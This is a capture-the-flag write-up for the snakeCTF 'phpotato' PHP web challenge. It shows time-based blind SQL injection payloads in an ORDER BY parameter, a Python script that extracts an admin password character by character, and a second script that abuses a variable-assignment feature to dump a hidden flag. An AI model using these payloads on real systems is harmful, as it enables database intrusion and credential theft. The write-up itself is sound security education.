

# phpotato [8 Solves]

## Description

> Dear crypto bro,
> I know you're sad the dogecoin is doing bad.
> I made this app so we can share our favorite numbers and crunch them together.
>
> <https://phpotato.snakectf.org>
>
> Attachments: web_phpotato.tar

<details><summary>Attachment file tree</summary>

```console
$ tree web_phpotato
web_phpotato
├── compose.yml
└── src
    ├── challenge
    │   ├── Dockerfile
    │   ├── php.ini
    │   └── src
    │       ├── assets
    │       │   ├── chalkboard.jpg
    │       │   └── main.css
    │       ├── index.php
    │       ├── misc
    │       │   ├── config.php
    │       │   ├── hooks.php
    │       │   ├── pipeline.php
    │       │   └── utils.php
    │       ├── pages
    │       │   ├── 404.php
    │       │   ├── admin.php
    │       │   ├── home.php
    │       │   ├── login.php
    │       │   ├── numbers.php
    │       │   ├── register.php
    │       │   └── users.php
    │       └── router.php
    └── db
        └── schema.sql

8 directories, 19 files

```

</details>

## Flag

snakeCTF{w4it_th15_IsN7_!_krYpt0}

## TL;DR

- Leak admin's password by Time-Based Blind SQL Injection
- Assign `$pages`, `$req_page`, and `$req_method` variables by the pipeline feature
- Dump the show_flag user hook by `print_r`

## Solution

Note: This web application implemented in PHP is custom-built, so I recommend to see the entire code yourself at least once.
In this writeup, I will only explain the information necessary for flag.

### How to get the flag

```php
// src/challenge/src/misc/config.php
<?php
$mysqli = null;

$define_flag = fn() => define('FLAG', getenv('FLAG'));

$define_db_params = fn() =>
define('DB_HOSTNAME', getenv('DB_HOST')) &&
define('DB_USER', getenv('DB_USER')) &&
define('DB_PASSWORD', getenv('DB_PASSWORD')) &&
define('DB_DATABASE', getenv('DB_DATABASE')) &&
define('DB_PORT', getenv('DB_PORT'));

$define_error_display = fn() =>
MYSQLI_REPORT(MYSQLI_REPORT_OFF) && // Avoid warning breaking redirection..
error_reporting(E_ALL) &&
ini_set('display_errors', 1);

$init_db = fn(&$mysqli) => $mysqli = new mysqli(DB_HOSTNAME, DB_USER, DB_PASSWORD, DB_DATABASE, DB_PORT);

register_init_hook($define_flag);
// (snip)
```

```php
// src/challenge/src/misc/hooks.php
<?php
$init_hooks = [];
$user_hooks = [];

function register_init_hook(&$fn, $args = [])
{
    global $init_hooks;

    $init_hooks[] = [$fn, $args];
}
function execute_init_hooks()
{
    global $init_hooks;

    foreach ($init_hooks as [$hook, $args]) {
        $hook(...$args);
    }

    $init_hooks = [];
}

function register_user_hook($name, &$callback, $args = [])
{
    global $user_hooks;

    $user_hooks[$name] = [ &$callback, $args];
}

function register_new_user_hook($name, &$callback, $args = [])
{
    global $user_hooks;

    if (!array_key_exists($name, $user_hooks)) {
        register_user_hook($name, $callback, $args);
    }

}
// (snip)
```

```php
// src/challenge/src/index.php
<?php
require_once 'misc/hooks.php';
require_once 'router.php';

require_once 'misc/config.php';
require_once 'misc/utils.php';
require_once 'misc/pipeline.php';

// General init
register_init_hook($init_app);
register_init_hook($init_user_hooks);
register_init_hook($set_default_precision, [&$precision, $_GET]);
execute_init_hooks();
$init_router();

# Uhh so is this what you want?
register_new_user_hook(
    'show_flag',
    $display_popup,
    ["Uhh all right, here's your flag: " . FLAG, &$message]
);
// (snip)
```

`FLAG` constant:

- config.php: `$define_flag` arrow function, which defines the `FLAG` constant and sets the FLAG environment variable to it.
  `$define_flag` is registered as init hooks by `register_init_hook($define_flag)`.
- index.php: call `execute_init_hooks()`
- hooks.php: call `$define_flag`

show_flag user hook:

- show_flag user hook, which shows `FLAG` constant, is registered by `register_new_user_hook()`.
  However, show_flag user hook is not called anywhere.

  ```console
  $ grep show_flag -R .
  ./src/challenge/src/index.php:    'show_flag',
  ```

If we can call or dump this show_flag user hook, we can get the flag.

### SQL Injection Detection

```php
// src/challenge/src/pages/home.php
// (snip)
$handle_get = fn(&$mysqli, &$account_numbers) =>
    ($query = "SELECT * FROM numbers WHERE user_id = " . $_SESSION['id']) &&
    (isset($_GET['sort']) ?
    ($query .= " ORDER BY processed_date " . $_GET['sort'])
    : true
) &&
    (isset($_GET['limit']) ?
    ($query .= " LIMIT " . $_GET['limit'])
    : true
) &&
    ($query_result = $mysqli->query($query)) &&
    ($res = $query_result->fetch_all(MYSQLI_ASSOC)) &&
    ($account_numbers = implode(array_map($render_number, $res))
);
// (snip)
```

In home.php, the SQL Query is created by string concatenation.

### Tested for SQLi

SQL query without SQLi payload:

```sql
# ORDER BY clause only
# SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date <input>
SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC

# LIMIT clause only
# SELECT * FROM numbers WHERE user_id = 2 LIMIT <input>
SELECT * FROM numbers WHERE user_id = 2 LIMIT 1,0

# ORDER BY and LIMIT clause
# SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date <input> LIMIT <input>
SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC LIMIT 1,0
```

I run mariadb client to test SQL Query with SQLi payload.

Setup:

```console
$ docker-compose exec db mariadb -h localhost --user app --password=REDACTED photatopower
...
MariaDB [photatopower]> prompt > 
PROMPT set to '> '
> # check users table schema
> DESC users;
+----------+--------------+------+-----+---------+----------------+
| Field    | Type         | Null | Key | Default | Extra          |
+----------+--------------+------+-----+---------+----------------+
| id       | int(11)      | NO   | PRI | NULL    | auto_increment |
| username | varchar(255) | YES  | UNI | NULL    |                |
| password | varchar(255) | YES  |     | NULL    |                |
| is_admin | tinyint(1)   | YES  |     | NULL    |                |
+----------+--------------+------+-----+---------+----------------+
4 rows in set (0.001 sec)

> # check admin record
> SELECT * FROM users WHERE username="admin";
+----+----------+----------+----------+
| id | username | password | is_admin |
+----+----------+----------+----------+
|  1 | admin    | REDACTED |        1 |
+----+----------+----------+----------+
1 row in set (0.001 sec)
```

OK: SQLi with ORDER BY clause.
Time-Based SQLi with ORDER BY clause is working:

```console
> # without SQLi payload query
> SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC;
+----+-----+----------+---------+-----------+---------------------+
| id | num | pipeline | user_id | processed | processed_date      |
+----+-----+----------+---------+-----------+---------------------+
|  4 | E   |          |       2 |         1 | 2023-12-11 04:19:25 |
+----+-----+----------+---------+-----------+---------------------+
1 row in set (0.001 sec)

> # OK: SLEEP(3) only
> SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC, SLEEP(3);
...
1 row in set (3.002 sec)  # SLEEP(3)

> # OK: SLEEP(3) with IF statement
> SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC, IF(true, SLEEP(3), 1);
...
1 row in set (3.001 sec)  # SLEEP(3)

> SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC, IF(false, SLEEP(3), 1);
...
1 row in set (0.001 sec)  # no SLEEP(3) because if condition is false

> SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC, 
    -> IF((SELECT password FROM users WHERE username="admin")="REDACTED", SLEEP(3), 1);
...
1 row in set (3.002 sec)

> SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC, 
    -> IF(MID((SELECT password FROM users WHERE username="admin"),1,1)="R", SLEEP(3), 1);
...
1 row in set (3.002 sec)

> # NOTE: case insensitive
> SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC, 
    -> IF(MID((SELECT password FROM users WHERE username="admin"),1,1)="r", SLEEP(3), 1);
...
1 row in set (3.002 sec)

> # so use ASCII()
> SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC, 
    -> IF(ASCII(MID((SELECT password FROM users WHERE username="admin"),1,1))=ASCII("R"), SLEEP(3), 1);
...
1 row in set (3.002 sec)

> SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC, 
    -> IF(ASCII(MID((SELECT password FROM users WHERE username="admin"),1,1))=ASCII("r"), SLEEP(3), 1);
...
1 row in set (0.001 sec)

> # or HEX(). There may be other methods as well.
> SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC, 
    -> IF(HEX(MID((SELECT password FROM users WHERE username="admin"),1,1))=HEX("R"), SLEEP(3), 1);
...
1 row in set (3.002 sec)

> SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC, 
    -> IF(HEX(MID((SELECT password FROM users WHERE username="admin"),1,1))=HEX("r"), SLEEP(3), 1);
...
1 row in set (0.001 sec)
```

NG: SQLi with LIMIT clause.
We can not use a subquery in LIMIT clause:

```console
> # without SQLi payload query
> SELECT * FROM numbers WHERE user_id = 2 LIMIT 0,1;
+----+-----+----------+---------+-----------+---------------------+
| id | num | pipeline | user_id | processed | processed_date      |
+----+-----+----------+---------+-----------+---------------------+
|  4 | E   |          |       2 |         1 | 2023-12-11 04:19:25 |
+----+-----+----------+---------+-----------+---------------------+
1 row in set (0.001 sec)

> # NG because syntax error
> SELECT * FROM numbers WHERE user_id = 2 LIMIT (SELECT 0),1;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '(SELECT 0),1' at line 1

> # NG
> SELECT * FROM numbers WHERE user_id = 2 LIMIT 0,(SELECT 1);
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '(SELECT 1)' at line 1
```

NG: SQLi with UNION SELECT.
We can not use it after ORDER BY or LIMIT cause:

```console
> # NG because the first SELECT statement needs to be enclosed in parenthesis ()
> SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC UNION SELECT * FROM numbers;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'UNION SELECT * FROM numbers' at line 1

> (SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC) UNION SELECT * FROM numbers;
+----+------+----------+---------+-----------+---------------------+
| id | num  | pipeline | user_id | processed | processed_date      |
+----+------+----------+---------+-----------+---------------------+
|  4 | E    |          |       2 |         1 | 2023-12-11 04:19:25 |
|  1 | E    | NULL     |       1 |         1 | 1970-01-01 00:00:01 |
|  2 | 2.65 |  *= PI   |       1 |         0 | NULL                |
|  3 | 3.33 | NULL     |       1 |         1 | 1970-01-01 00:00:01 |
+----+------+----------+---------+-----------+---------------------+
4 rows in set (0.001 sec)

> # NG: UNION SELECT with ORDER BY clause
> SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC UNION (SELECT * FROM numbers);
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'UNION (SELECT * FROM numbers)' at line 1

> # NG: UNION SELECT with LIMIT clause
> SELECT * FROM numbers WHERE user_id = 2 LIMIT 1,0 UNION SELECT * FROM numbers;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'UNION SELECT * FROM numbers' at line 1
```

Also, multiple SQL query in PHP mysqli client doesn't work.

Thus, I will use Time-Based SQLi with ORDER BY clause.

### Leak admin's password

URL with SQLi payload:

```text
http://localhost:5003/index.php?page=home&sort=DESC,IF(true,SLEEP(3),1)
http://localhost:5003/index.php?page=home&sort=DESC,IF(false,SLEEP(3),1)

http://localhost:5003/index.php?page=home&sort=DESC,IF((SELECT 1),SLEEP(3),1)
http://localhost:5003/index.php?page=home&sort=DESC,IF((SELECT password FROM users WHERE username="admin")!="ng",SLEEP(3),1)

http://localhost:5003/index.php?page=home&sort=DESC,IF(ASCII(MID((SELECT password FROM users WHERE username="admin"),1,1))=ASCII("R"),SLEEP(3),1)
http://localhost:5003/index.php?page=home&sort=DESC,IF(ASCII(MID((SELECT password FROM users WHERE username="admin"),2,1))=ASCII("E"),SLEEP(3),1)
```

Implemented a script to extract admin's password based on the above.

<details><summary>extract_admin_password.py</summary>

```python
import requests
import time

requests.packages.urllib3.disable_warnings()

s = requests.session()
s.proxies = {
    "http": "http://127.0.0.1:8080",
    "https": "http://127.0.0.1:8080",
}
s.verify = False

USERNAME = "a"
PASSWORD = "a"

BASE_URL = "http://localhost:5003"
# BASE_URL = "https://phpotato.snakectf.org"

SQLI_SLEEP_THRESHOLD = 3


def login():
    s.post(
        f"{BASE_URL}/login",
        data={
            "_METHOD": "POST",
            "username": USERNAME,
            "password": PASSWORD,
            "login": "Login",
        },
        allow_redirects=False,
    )


def request_process_time(payload):
    t1 = time.time()
    s.get(f"{BASE_URL}/index.php?page=home&sort={payload}")
    t2 = time.time()
    return t2 - t1


def main():
    login()

    # Binary Search: https://en.wikipedia.org/wiki/Binary_search_algorithm#Procedure_for_finding_the_leftmost_element

    # extract the length of admin's password
    [l, r] = 1, 100
    while l < r:
        m = (l + r) // 2

        payload = f'DESC,IF(LENGTH((SELECT password FROM users WHERE username="admin"))>ascii("{chr(m)}"),SLEEP({SQLI_SLEEP_THRESHOLD}),1)'
        if request_process_time(payload) > SQLI_SLEEP_THRESHOLD:
            l = m + 1
        else:
            r = m

    password_length = l
    print(f"password length: {password_length}")

    # extract the admin's password
    password = ""
    for i in range(1, password_length + 1):
        [l, r] = 0x21, 0x7D  # ! and }
        while l < r:
            m = (l + r) // 2
            print(password + chr(m), end="\r", flush=True)

            payload = f'DESC,IF(ASCII(MID((SELECT password FROM users WHERE username="admin"),{i},1))>ascii("{chr(m)}"),SLEEP({SQLI_SLEEP_THRESHOLD}),1)'
            if request_process_time(payload) > SQLI_SLEEP_THRESHOLD:
                l = m + 1
            else:
                r = m

        password += chr(l)

    print(f"\npassword: {password}")


if __name__ == "__main__":
    main()
```

</details>

Executed this script for the challenge server:

```console
$ python3 extract_admin_password.py
password length: 32
w4GNskGHWrfmodOhtc04dphIttnBhEcS
password: w4GNskGHWrfmodOhtc04dphIttnBhEcT
```

I got admin's password `w4GNskGHWrfmodOhtc04dphIttnBhEcT`.

### dump show_flag user hook



Arbitrary variable can be defined by pipeline feature.

Tested `$parse_instruction` arrow function.

<details><summary>my_pipeline.php</summary>

```php
<?php

$instructions = [
    '=' => fn(&$lval, $rval) => $lval = $rval,
    '+=' => fn(&$lval, $rval) => $lval = $lval + $rval,
    '-=' => fn(&$lval, $rval) => $lval = $lval - $rval,
    '*=' => fn(&$lval, $rval) => $lval = $lval * $rval,
    '/=' => fn(&$lval, $rval) => $lval = $lval / $rval,
    '_' => fn(&$lval, $rval) => $lval = $lval,
];

$check_lval = fn($lval) => $lval[0] == '$' && ctype_graph(substr($lval, 1));

$check_rval = fn($rval) => $check_lval($rval) || ctype_digit($rval) || ctype_alpha($rval);

// Instruction as quadruple
// (name, [lval, rval], deps, deref_rval)
$parse_instruction = fn($i) =>
    (strlen($i) == 0 || ($i[0] == '#') ? // Comments
    []
    : (
        // Remove whitespaces
        ($i = preg_replace('/\s\s+/', ' ', $i)) &&
        ($i = trim($i)) &&
        (strpos($i, "FLAG") === false) &&
        // Explode Instruction
        ($instr_splitted = explode(" ", $i, 3)) &&
        // Parse
        (count($instr_splitted) == 3) &&
        ([$lval, $op, $rval] = $instr_splitted) &&
        $check_lval($lval) &&
        // Remove reference
        ($lval = substr($lval, 1)) &&
        $check_rval($rval) &&
        array_key_exists($op, $instructions) ?
        // Instruction is ok, check if deref is needed
        (
            ctype_digit($rval) ||
            ctype_alpha($rval) ||
            // Remove leading $
            (($rval = substr($rval, 1)) && false) ?
            [$op, [$lval, $rval], [$lval], false]
            : [$op, [$lval, $rval], [$lval, $rval], true]
        )
        : []// Instruction not found
    )
);

// ===== The above is copypasta from pipeline.php =====

// NG: it returns array that first element is empty array because "show_flag" is included underscode (_), then $check_rval returns false
// $input = '$req_page = show_flag
// $req_method = 1';

// OK
$input = '$pages = $user_hooks
$req_page = $precision
$req_method = 1';

$pipeline = $input;
$pipeline_e = explode("\n", $pipeline);
$result = array_map($parse_instruction, $pipeline_e);

print_r($result);
```

</details>

<details><summary>result:</summary>

```console
$ php my_pipeline.php
Array
(
    [0] => Array
        (
            [0] => =
            [1] => Array
                (
                    [0] => pages
                    [1] => user_hooks
                )

            [2] => Array
                (
                    [0] => pages
                    [1] => user_hooks
                )

            [3] => 1
        )
  
    [1] => Array
        (
            [0] => =
            [1] => Array
                (
                    [0] => req_page
                    [1] => precision
                )

            [2] => Array
                (
                    [0] => req_page
                    [1] => precision
                )

            [3] => 1
        )

    [2] => Array
        (
            [0] => =
            [1] => Array
                (
                    [0] => req_method
                    [1] => 1
                )

            [2] => Array
                (
                    [0] => req_method
                )

            [3] =>
        )

)
```

</details>

With regarding to RewriteRule in the .htaccess file, accessing the URL path /admin/p-show_flag allows to assign any value to the `$precision` variable.

```apache
# src/challenge/.htaccess
# (snip)
RewriteRule ^(home|admin)/p-([^/]+)/?$                                  /index.php?page=$1\&precision=$2                    [NC,L]
# (snip)
```

```php
// src/challenge/src/misc/utils.php
// (snip)
$precision = 0;
$set_default_precision = fn(&$precision) =>
    (isset($_GET['precision']) ?
    ($precision = $_GET['precision'])
    : ($precision = DEFAULT_PRECISION)
);
//(snip)
```

show_flag user hook can be dumped by `print_r` in router.php catch block.

```php
// src/challenge/src/router.php
// (snip)
    try {
        if (array_key_exists($req_page, $pages) && array_key_exists($req_method, $pages[$req_page])) {
            include_once $pages[$req_page][$req_method];
        } else {
            include_once $pages['404'];
        }
        // Render result
        $render();
    } catch (Error $e) {
        http_response_code(500);
        print('Rendering Error occurred!\n' .
            'Please contact the nearest locally available administrator and report him the file' .
            print_r($pages[$req_page][$req_method], true) . '\n');  // this
    }
```

Steps to dump the show_flag user hook:

1. submitting the following pipeline and Start Process

   ```php
   $pages = $user_hooks
   $req_page = $precision
   $req_method = 1
   ```

1. send a request for [GET] /admin/p-show_flag to assign `"show_flag"` to `$req_page` (`$req_page <- $precision <- "show_flag"`)
1. Since only `$_SESSION['hooks'] = []` is proceeded in `execute_user_hooks()`, `$user_hooks` includes show_flag user hook, not empty.
   Thus, in router.php, `array_key_exists($req_page, $pages)` return true.
1. `$pages`, the same to `$user_hooks`, has array the following:

   ```php
   Array
   (
       [registration_success] => Array
           (
               [0] => Closure Object
                   (
                       [parameter] => Array
                           (
                               [$text] => <required>
                               [&$message] => <required>
                           )
   
                   )
   
               [1] => Array
                   (
                       [0] => We've sent you a mail pidgeon to confirm your identity.. You can login in the meanwhile.
                       [1] => 
                   )
   
           )
   ...
       [show_flag] => Array
           (
               [0] => Closure Object
                   (
                       [parameter] => Array
                           (
                               [$text] => <required>
                               [&$message] => <required>
                           )
   
                   )
   
               [1] => Array
                   (
                       [0] => Uhh all right, here's your flag: snakeCTF{REDACTED}
                       [1] => 
                   )
   
           )
   ...
   ```

1. by `print_r`, dump `$pages["show_flag"][1]` to get the flag

```python
# flag.py
import requests
import re

requests.packages.urllib3.disable_warnings()

s = requests.session()
# s.proxies = {
#     "http": "http://127.0.0.1:8080",
#     "https": "http://127.0.0.1:8080",
# }
s.verify = False

USERNAME = "admin"
PASSWORD = "REDACTED"
# PASSWORD = "w4GNskGHWrfmodOhtc04dphIttnBhEcT"

BASE_URL = "http://localhost:5003"
# BASE_URL = "https://phpotato.snakectf.org"


def login():
    s.post(
        f"{BASE_URL}/login",
        data={
            "_METHOD": "POST",
            "username": USERNAME,
            "password": PASSWORD,
            "login": "Login",
        },
        allow_redirects=False,
    )


def main():
    login()

    pipeline = """\
    $pages = $user_hooks
    $req_page = $precision
    $req_method = 1
    """

    s.post(
        f"{BASE_URL}/admin",
        data={"_METHOD": "PUT", "pipeline": pipeline, "submit": "Create"},
    )

    # extract pipeline id
    res = s.get(f"{BASE_URL}/admin")
    m = re.findall(r"hidden value=([0-9]+)", res.text)
    if not m:
        print("not matched.")
        return

    pipeline_id = max(m)

    s.post(
        f"{BASE_URL}/admin",
        data={"_METHOD": "POST", "id": pipeline_id, "submit": "Process"},
    )
    res = s.get(f"{BASE_URL}/admin/p-show_flag")
    print(res.text)


if __name__ == "__main__":
    main()
```

Result:

```console
$ python3 flag.py
<br />
<b>Warning</b>:  Array to string conversion in <b>/var/www/html/router.php</b> on line <b>53</b><br />
<br />
<b>Warning</b>:  include_once(Array): Failed to open stream: No such file or directory in <b>/var/www/html/router.php</b> on line <b>53</b><br />
<br />
<b>Warning</b>:  include_once(): Failed opening 'Array' for inclusion (include_path='.:/usr/local/lib/php') in <b>/var/www/html/router.php</b> on line <b>53</b><br />
<br />
<b>Warning</b>:  Undefined variable $render in <b>/var/www/html/router.php</b> on line <b>58</b><br />
Rendering Error occurred!\nPlease contact the nearest locally available administrator and report him the fileArray
(
    [0] => Uhh all right, here's your flag: snakeCTF{w4it_th15_IsN7_!_krYpt0}
    [1] =>
)
\n
```

## References

- [PHP: Arrow Functions - Manual](https://www.php.net/manual/en/functions.arrow.php)
- [PHP: define - Manual](https://www.php.net/manual/en/function.define.php)
- [PHP: ctype_graph - Manual](https://www.php.net/manual/en/function.ctype-graph.php)
- [PHP: ctype_digit - Manual](https://www.php.net/manual/en/function.ctype-digit.php)
- [PHP: ctype_alpha - Manual](https://www.php.net/manual/en/function.ctype-alpha.php)
